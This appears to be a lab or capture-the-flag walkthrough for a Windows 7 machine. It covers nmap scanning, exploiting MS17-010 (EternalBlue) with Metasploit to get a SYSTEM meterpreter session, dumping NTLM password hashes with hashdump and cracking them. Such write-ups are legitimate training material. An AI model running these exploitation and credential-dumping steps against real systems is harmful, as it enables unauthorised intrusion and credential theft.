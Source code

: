 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/db0ff09d-a6b7-4b03-8f93-1c1827dc7867"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.12.63
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b3d2ea0-61a7-4511-8088-dea75395c71a"></picture><br>TTL = 127 ==> WINDOWS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.12.63 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/14e953a0-650c-4e09-9532-d084c7761ce7"></picture><br>Accessible ports 135,139,445,3389,49452,49152,49154,49158,49160</h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p135,139,445,3389,49452,49152,49154,49158,49160 10.10.12.63 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/67ace266-1259-4839-b491-fac72e358c27"></picture><br>445/tcp   open   microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) "could be vulnerable to EternalBlue"</h3><hr style="border-color:red;">

### **- Looking for vulnerabilities with nmap:**
```bash
nmap --script "vuln and safe" -p445 10.10.12.63
```
```
--script "vuln and safe" → Runs Nmap scripts that belong to both the vuln (vulnerability detection) and safe (non-destructive) categories.

-p445 → Specifies scanning only port 445 (SMB/Windows file sharing).
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e1883661-9019-48d0-a24f-718440cc2987"></picture><br>We found ms17-010 Vulnerability</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
msfdb init && msfconsole
```
```
msfdb init (Initialize Metasploit Database)
msfconsole (Launch Metasploit Console)
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d30ca4a3-673b-4644-8057-70dce9a04494"></picture><br>In here we will look for a vulnerability for ms17-010</h3>

```bash
search ms17-010
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d22d9ff-cf8f-49ec-a4b4-bdd612605964"></picture><br>As we thought it was an eternalblue.</h3>


### **- We will configure our sploit to gain access to the victim machine:**

```bash
use 0
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/eb010bfc-605e-4753-9bdc-a5a44c50d0ae"></picture><br>The sploit is asking us to enter information about the victim and attacker ip since the ports are automatically assigned.</h3>

### **- We assign the information you require:**
```bash
set RHOSTS 10.10.12.63
set LHOST 10.21.118.81
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a0d1071b-0d56-46bc-87eb-4b67fea89c95"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1573f02f-7934-4fb1-b381-a901d02f1926"></picture><br>we already have a session by meterpreter like user System.</h3>

### **- We search for all hashes in the system**
```bash
hashdump
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/82b66b35-dfed-4191-98f1-55ea6c1968b6"></picture><br>Using the web https://crackstation.net/ we will break these hashes</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/739058b1-6131-4368-81e1-c3f7d3760145"></picture><br></h3>

### **- looking for the flags:**
```bash
search -f flag*.txt
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9d38f110-d603-4b26-947d-5af09520ff2f"></picture><br></h3>
